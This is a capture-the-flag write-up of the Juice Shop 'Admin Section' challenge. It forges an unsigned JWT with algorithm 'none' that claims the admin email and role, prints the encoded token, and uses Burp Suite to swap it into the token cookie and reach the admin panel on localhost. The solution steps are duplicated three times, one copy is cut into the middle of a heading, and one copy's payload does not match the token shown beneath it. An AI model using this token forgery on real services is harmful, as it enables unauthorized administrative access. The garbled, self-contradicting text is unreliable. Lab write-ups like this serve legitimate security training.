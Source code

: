 # Admin Section

**Category**: Broken Access Control  
**Difficulty**: 3

**Description**:  
This challenge requires accessing the administration section of the Juice Shop application. While the `/administration` route exists, attempting to open it directly without proper authorization results in a 403 error. The goal is to bypass authentication restrictions and enter the admin panel successfully.

---

**Solution**:  
The solution involved spoofing a valid JSON Web Token (JWT) to impersonate the administrator account. Juice Shop's frontend accepts unsigned tokens if the algorithm is set to `none`, and it uses the `email` and `role` fields in the JWT payload to determine the logged-in user's identity and permissions. By crafting a custom token that claims to be the admin, it was possible to access the restricted admin interface.

---

**Step Opened **DevTools → Application → Local Storage** and copied the value of the `token`.

2. Decoded the token using [https://jwt.io](https://jwt.io) to inspect its structure:
   
   - Header:
     
     ```json
     {
       "alg": "HS256",
       "typ": "JWT"
     }
     ```
   
   - Payload contained the current user's email and role.

3. Locally modified the token:
   
   - Changed the header to:
     
     ```json
     {
       "alg": "none",
       "typ": "JWT"
     }
     ```
   
   - Replaced the payload with:
     
     ```json
     {
       "id": 1,
       "email": "admin@juice-sh.op",
       "role": "admin"
     }
     ```
   
   - Base64URL-encoded the header and payload, then combined them into a token:
     
     ```
     eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiZW1haWwiOiJhZG1pbkBqdWljZS1zaC5vcCIsInJvbGUiOiJhZG1pbiJ9.
     ```

4. In **Burp Suite**, replaced the value of the **`token` cookie** with this spoofed token when sending requests.
   
   - Note: using the token in `Authorization: Bearer` had no effect — the application continued to treat the user as non-admin. Only the `Cookie: token=...` header influenced access.

5. Sent a `GET` request to:
   
   ```
   http://localhost:3000/#/administration
   ```

6. This time, the admin interface loaded successfully, revealing user management controls such as the user table, delete/edit buttons, etc.

7. The challenge was immediately marked as solved.

---

**Note**:  
Attempts to exploit this further (e.g., changing admin password via `PUT /api/Users/1/change-password`) resulted in a backend rejection with:

```
"message": "Blocked illegal activity by ::ffff:127.0.0.1"
```

This confirms Juice Shop implements backend protections against unauthorized privilege escalation and IDOR attacks. The correct approach is to spoof the JWT locally and access `/administration` using the manipulated identity, without triggering backend-side changes.

---

**Challenge solved!** was triggered upon successfully accessing the admin panel using a spoofed token via the `Cookie` header. Opened **DevTools → Application → Local Storage** and copied the value of the `token`.

2. Decoded the token using [https://jwt.io](https://jwt.io) to inspect its structure:
   
   - Header:
     
     ```json
     {
       "alg": "HS256",
       "typ": "JWT"
     }
     ```
   
   - Payload contained the current user's email and role.

3. Locally modified the token:
   
   - Changed the header to:
     
     ```json
     {
       "alg": "none",
       "typ": "JWT"
     }
     ```
   
   - Replaced the payload with:
     
     ```json
     {
       "id": 1,
       "email": "admin@juice-sh.op",
       "role": "admin"
     }
     ```
   
   - Base64URL-encoded the header and payload, then combined them into a token:
     
     ```
     eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiZW1haWwiOiJhZG1pbkBqdWljZS1zaC5vcCIsInJvbGUiOiJhZG1pbiJ9.
     ```

4. In **Burp Suite**, replaced the value of the **`token` cookie** with this spoofed token when sending requests.
   
   - Note: using the token in `Authorization: Bearer` had no effect — the application continued to treat the user as non-admin. Only the `Cookie: token=...` header influenced access.

5. Sent a `GET` request to:
   
   ```
   http://localhost:3000/#/administration
   ```

6. This time, the admin interface loaded successfully, revealing user management controls such as the user table, delete/edit buttons, etc.

7. The challenge was immediately marked as solved.

---

**Note**:  
Attempts to exploit this further (e.g., changing admin password via `PUT /api/Users/1/change-password`) resulted in a backend rejection with:

```
"message": "Blocked illegal activity by ::ffff:127.0.0.1"
```

This confirms Juice Shop implements backend protections against unauthorized privilege escalation and IDOR attacks. The correct approach is to spoof the JWT locally and access `/administration` using the manipulated identity, without triggering backend-side changes.

---

**Challenge solved!** was triggered upon successfully accessing the admin panel using a spoofed token via the `Cookie` header.s**:

1. Navigated to: (Found it in devtools searching for "path:")
   
   ```
   http://localhost:3000/#/administration
   ```
   
   This initially showed a `403 - You are not allowed to access this page`.

2. Opened **DevTools → Application → Local Storage** and copied the value of the `token`.
   
   2. Decoded the token using [https://jwt.io](https://jwt.io) to inspect its structure:
      
      - Header:
        
        ```json
        {
         "typ": "JWT",
         "alg": "HS256"
        }
        ```
      
      - Payload contained the current user's email and role.
   
   3. Locally modified the token:
      
      - Changed the header to:
        
        ```json
        {
         "typ": "JWT",
         "alg": "none"
        }
        ```
      
      - Replaced the payload with:
        
        ```json
        {
         "email": "admin@juice-sh.op",
         "role": "admin"
        }
        ```
      
      - Base64URL-encoded the header and payload, then combined them into a token:
        
        ```
        eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiZW1haWwiOiJhZG1pbkBqdWljZS1zaC5vcCIsInJvbGUiOiJhZG1pbiJ9.
        ```
   
   4. In **Burp Suite**, replaced the value of the **`token` cookie** and in DevTools → Application → Local Storage `token` with this spoofed token when sending requests.
      
      - Note: using the token in `Authorization: Bearer` had no effect — the application continued to treat the user as non-admin. Only the `Cookie: token=...` header influenced access.
   
   5. Navigated to:
      
      ```
      http://localhost:3000/#/administration
      ```
   
   6. This time, the admin interface loaded successfully, revealing user management controls such as the user table, delete/edit buttons, etc.
   
   7. The challenge was immediately marked as solved.
   
   ---
   
   **Note**:  
   Attempts to exploit this further (e.g., changing admin password via `PUT /api/Users/1/change-password`) resulted in a backend rejection with:
   
   ```
   "message": "Blocked illegal activity by ::ffff:127.0.0.1"
   ```
   
   This confirms Juice Shop implements backend protections against unauthorized privilege escalation and IDOR attacks. The correct approach is to spoof the JWT locally and access `/administration` using the manipulated identity, without triggering backend-side changes.
   
   ---
   
   **Challenge solved!** was triggered upon successfully accessing the admin panel using a spoofed token via the `Cookie` header.
